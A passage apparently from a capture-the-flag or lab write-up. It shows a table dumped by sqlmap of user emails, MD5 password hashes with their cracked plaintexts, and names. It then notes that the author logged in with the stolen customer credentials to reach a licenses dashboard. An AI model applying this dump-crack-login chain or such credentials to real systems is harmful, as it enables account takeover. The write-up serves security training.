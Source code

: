 ```bash
| 17 | daeryl@about.you             | 061fba5bdfc076bb7362616668de87c8 (lovely)    | Dorena Aery          |
| 18 | aalekseicikm@skyrock.moc     | aae039d6aa239cfc121357a825210fa3 (jessica)   | Amble Alekseicik     |
| 19 | lginmann@lycos.moc           | c33367701511b4f6020ec61ded352059 (654321)    | Lin Ginman           |
| 20 | lgiorioo@ow.lic              | 0acf4539a14b3aa27deeb4cbdf6e989f (michael)   | Letty Giorio         |
| 21 | lbyshp@wired.moc             | adff44c5102fca279fce7559abf66fee (ashley)    | Lazarus Bysh         |
| 22 | bklewerq@yelp.moc            | d8578edf8458ce06fbc5bb76a58c5ca4 (qwerty)    | Bud Klewer           |
| 23 | wstrettellr@senate.gov       | 96e79218965eb72c92a549dd5a330112 (111111)    | Woodrow Strettell    |
| 24 | lodorans@kickstarter.moc     | edbd0effac3fcc98e725920a512881e0 (iloveu)    | Lila O Doran         |
| 25 | bpfeffelt@artisteer.moc      | 670b14728ad9902aecba32e22fa4f6bd (000000)    | Bibbie Pfeffel       |
| 26 | lgrimsdellu@abc.net.uvw      | 2345f10bb948c5665ef91f6773b3e455 (michelle)  | Luce Grimsdell       |
| 27 | lpealingv@goo.goo            | f78f2477e949bee2d12a2c540fb6084f (tigger)    | Lyle Pealing         |
| 28 | krussenw@mit.ude             | 0571749e2ac330a7455809c6b0e7af90 (sunshine)  | Kimmy Russen         |
| 29 | meastmondx@businessweek.moc  | c378985d629e99a4e86213db0cd5e70d (chocolate) | Meg Eastmond         |
+----+------------------------------+----------------------------------------------+----------------------+
```

sqlmap do the job and bruteforce all passowrd hashes.

Login with customer creds, Found Same url formate inside `/licenses` dassboard

![](screenshots/license-theme.png)
